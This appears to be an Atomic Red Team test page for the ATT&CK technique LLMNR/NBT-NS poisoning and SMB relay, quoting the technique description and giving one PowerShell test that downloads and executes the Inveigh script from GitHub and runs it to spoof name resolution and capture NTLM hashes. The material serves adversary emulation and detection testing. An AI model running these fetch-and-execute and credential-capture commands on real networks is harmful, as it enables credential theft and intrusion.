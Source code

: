 # T1557.001 - Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1557/001)
<blockquote>By responding to LLMNR/NBT-NS network traffic, adversaries may spoof an authoritative source for name resolution to force communication with an adversary controlled system. This activity may be used to collect or relay authentication materials. 

Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) are Microsoft Windows components that serve as alternate methods of host identification. LLMNR is based upon the Domain Name System (DNS) format and allows hosts on the same local link to perform name resolution for other hosts. NBT-NS identifies systems on a local network by their NetBIOS name. (Citation: Wikipedia LLMNR)(Citation: TechNet NetBIOS)

Adversaries can spoof an authoritative source for name resolution on a victim network by responding to LLMNR (UDP 5355)/NBT-NS (UDP 137) traffic as if they know the identity of the requested host, effectively poisoning the service so that the victims will communicate with the adversary controlled system. If the requested host belongs to a resource that requires identification/authentication, the username and NTLMv2 hash will then be sent to the adversary controlled system. The adversary can then collect the hash information sent over the wire through tools that monitor the ports for traffic or through [Network Sniffing](https://attack.mitre.org/techniques/T1040) and crack the hashes offline through [Brute Force](https://attack.mitre.org/techniques/T1110) to obtain the plaintext passwords.

In some cases where an adversary has access to a system that is in the authentication path between systems or when automated scans that use credentials attempt to authenticate to an adversary controlled system, the NTLMv1/v2 hashes can be intercepted and relayed to access and execute code against a target system. The relay step can happen in conjunction with poisoning but may also be independent of it.(Citation: byt3bl33d3r NTLM Relaying)(Citation: Secure Ideas SMB Relay) Additionally, adversaries may encapsulate the NTLMv1/v2 hashes into various protocols, such as LDAP, SMB, MSSQL and HTTP, to expand and use multiple services with the valid NTLM response. 

Several tools may be used to poison name services within local networks such as NBNSpoof, Metasploit, and [Responder](https://attack.mitre.org/software/S0174).(Citation: GitHub NBNSpoof)(Citation: Rapid7 LLMNR Spoofer)(Citation: GitHub Responder)</blockquote>

## Atomic Tests

- [Atomic Test #1 - LLMNR Poisoning with Inveigh (PowerShell)](#atomic-test-1---llmnr-poisoning-with-inveigh-powershell)


<br/>

## Atomic Test #1 - LLMNR Poisoning with Inveigh (PowerShell)
Inveigh conducts spoofing attacks and hash/credential captures through both packet sniffing and protocol specific listeners/sockets. This Atomic will run continuously until you cancel it or it times out.

**Supported Platforms:** Windows


**auto_generated_guid:** deecd55f-afe0-4a62-9fba-4d1ba2deb321






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/82be2377ade47a4e325217b4144878a59595e750/Inveigh.ps1" -UseBasicParsing)
Invoke-Inveigh -ConsoleOutput Y -NBNS Y -MDNS Y -HTTPS Y -PROXY Y
```






<br/>

